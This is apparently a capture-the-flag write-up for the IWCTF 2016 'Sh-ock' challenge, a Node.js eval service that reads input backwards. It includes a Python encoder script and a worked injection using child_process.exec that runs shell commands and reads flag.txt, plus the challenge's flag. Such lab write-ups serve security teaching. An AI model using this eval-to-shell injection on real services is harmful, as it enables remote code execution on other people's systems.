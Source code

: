 # IWCTF 2016 - Exploit - Sh-ock - 90 pts

> Description: This is some kind of weird thing. I am sh-ocked.

> Service: 188.166.133.53:12589 

# Write-up

After connecting to the specified service, we'll get a prompt looking like a shell at first.

But after trying some commands, it gets obvious, that this ain't your normal shell, and it also has an awkward way of reading input.

```shell
$ nc 188.166.133.53 12589
Welcome and have fun!
$ls
[ReferenceError: l is not defined]
$abcdefg
[ReferenceError: fdb is not defined]
```

The error message reveals, that our input gets parsed backwards and it only reads every second character.

Adapting to this:

```shell
$l.a.v.e.
[Function: eval]
```

It seems to be some javascript interpreter. To make it a bit easier to communicate with the service, I wrote a (quick&dirty) python script, which reverses the input and adds the needed placeholders. It then occurred, that the longer our command is, the more placeholders were needed (count of dots found by empirical analysis ;-))

```python
#!/usr/bin/python
from socket import *
import sys
import time

BANNER = "Welcome and have fun!\n"

s = None

def connect():
	global s
	s = socket(AF_INET, SOCK_STREAM)
	s.connect(("188.166.133.53",12589))
	banner = s.recv(len(BANNER))
	print banner

def obfuscate(cmd):
	rev = cmd[::-1]
	res = ""

	for ch in rev:
		res += ch

		if len(cmd)<5:
			res += "."
		elif len(cmd)<6:
			res += ".."
		elif len(cmd)<8:
			res += "..."
		elif len(cmd)<9:
			res += "...."
		else:
			res += "....."
	
	return res

def execCmd():
	global s
	input = raw_input(prompt)
	cmd = obfuscate(input)+"\n"
	print "Cmd: %s" % cmd
	s.send(cmd)
	time.sleep(0.5)
	response = s.recv(4096)
	print "Response: %s" % response

connect()

prompt = s.recv(1)

while True:
	execCmd()
``` 

With this out of the way, we can start to find a way to exploit this thing.

```shell
$ python comm.py 
Welcome and have fun!

$sys=require('sys')
Cmd: ).....'.....s.....y.....s.....'.....(.....e.....r.....i.....u.....q.....e.....r.....=.....s.....y.....s.....

Response: { format: [Function],
  deprecate: [Function],
  debuglog: [Function],
  inspect: 
   { [Function: inspect]
[SNIP]
  _exceptionWithHostPort: [Function] }

$exec=require('child_process').exec
Cmd: c.....e.....x.....e...........).....'.....s.....s.....e.....c.....o.....r.....p....._.....d.....l.....i.....h.....c.....'.....(.....e.....r.....i.....u.....q.....e.....r.....=.....c.....e.....x.....e.....

Response: [Function]

$foo=exec("ls -la",function(error,stdout,stdin){sys.print(stdout)})
Cmd: ).....}.....).....t.....u.....o.....d.....t.....s.....(.....t.....n.....i.....r.....p...........s.....y.....s.....{.....).....n.....i.....d.....t.....s.....,.....t.....u.....o.....d.....t.....s.....,.....r.....o.....r.....r.....e.....(.....n.....o.....i.....t.....c.....n.....u.....f.....,.....".....a.....l.....-..... .....s.....l.....".....(.....c.....e.....x.....e.....=.....o.....o.....f.....

Response: ChildProcess {
  domain: null,
  _events: 
   { close: [Function: exithandler],
     error: [Function: errorhandler] },
  _eventsCount: 2,
  _maxListeners: undefined,
  _closesNeeded: 3,
  _closesGot: 0,
  connected: false,
  signalCode: null,
  exitCode: null,
  killed: false,
  spawnfile: '/bin/sh',
  _handle: Process { owner: [Circular], onexit: [Function], pid: 28225 },
  spawnargs: [ '/bin/sh', '-c', 'ls -la' ],
  pid: 28225,
[SNIP]

$foo()
Cmd: )..(..o..o..f..

Response: wHalfOpen: false,
     destroyed: false,
     bytesRead: 0,
     _bytesDispatched: 0,
     _sockname: null,
     _writev: null,
     _pendingData: null,
     _pendingEncoding: '' },
[SNIP]
       _pendingEncoding: '' } ] }
$total 16
drwxr-x---  2 root exp90 4096 Feb 21 03:23 .
drwxr-xr-x 14 root exp90 4096 Feb 11 12:19 ..
-rw-r--r--  1 root exp90   24 Feb 11 18:23 flag.txt
-rw-r--r--  1 root exp90 1011 Feb 11 18:23 task.js
[TypeError: foo is not a function]
$
```

There it is, let's grab it and finish this...

```shell
$foo=exec("cat flag.txt",function(error,stdout,stdin){sys.print(stdout)})
Cmd: ).....}.....).....t.....u.....o.....d.....t.....s.....(.....t.....n.....i.....r.....p...........s.....y.....s.....{.....).....n.....i.....d.....t.....s.....,.....t.....u.....o.....d.....t.....s.....,.....r.....o.....r.....r.....e.....(.....n.....o.....i.....t.....c.....n.....u.....f.....,.....".....t.....x.....t...........g.....a.....l.....f..... .....t.....a.....c.....".....(.....c.....e.....x.....e.....=.....o.....o.....f.....

Response: ChildProcess {
  domain: null,
[SNIP]

$foo()
Cmd: )..(..o..o..f..

Response:   allowHalfOpen: false,
     destroyed: false,
     bytesRead: 0,
[SNIP]
       _pendingEncoding: '' } ] }
$IW{Shocked-for-nothing!}[TypeError: foo is not a function]
```

Flag: `$IW{Shocked-for-nothing!}`

